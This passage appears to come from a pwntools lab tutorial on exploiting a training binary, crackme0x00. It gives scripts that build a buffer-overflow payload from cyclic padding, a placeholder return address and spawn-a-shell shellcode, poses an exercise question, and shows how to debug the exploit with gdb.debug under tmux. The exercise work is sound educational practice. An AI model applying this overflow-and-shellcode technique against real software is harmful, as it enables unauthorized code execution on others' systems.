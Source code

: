 context.update(arch='i386', os='linux')

shellcode = shellcraft.sh()
print(shellcode)
print(hexdump(asm(shellcode)))

payload  = cyclic(cyclic_find(0x61616168))
payload += p32(0xdeadbeef)
payload += asm(shellcode)

p = process("./crackme0x00")
p.sendline(payload)
p.interactive()
------------------------------------------------------------

  *asm() compiles your shellcode and provides its binary string.

[Task 2] Where it should jump (i.e., where does the shellcode locate)?
 change 0xdeadbeef to the shellcode region.

Does it work? In fact, it shouldn't, but how to debug/understand this
situation?


3. Debugging Exploits
=====================

Gdb module (http://docs.pwntools.com/en/stable/gdb.html) provides a
convenient way to program your debugging script.

To display debugging information, you need to use terminal 
that can split your shell into multiple screens. Since pwntools 
supports "tmux" you can use the gdb module through tmux terminal.

$ tmux
$ ./exploit3.py

------------------------------------------------------------
exploit3.py
------------------------------------------------------------
#!/usr/bin/env python2

from pwn import *

context.update(arch='i386', os='linux')

print(shellcraft.sh())
print(hexdump(asm(shellcraft.sh())))

shellcode = shellcraft.sh()

payload  = cyclic(cyclic_find(0x61616168))
payload += p32(0xdeadbeef)
payload += asm(shellcode)

p = gdb.debug("./crackme0x00", '''
echo "hi"
# break *0xdeadbeef
continue
''')
p.sendline(payload)
p.interactive()
------------------------------------------------------------
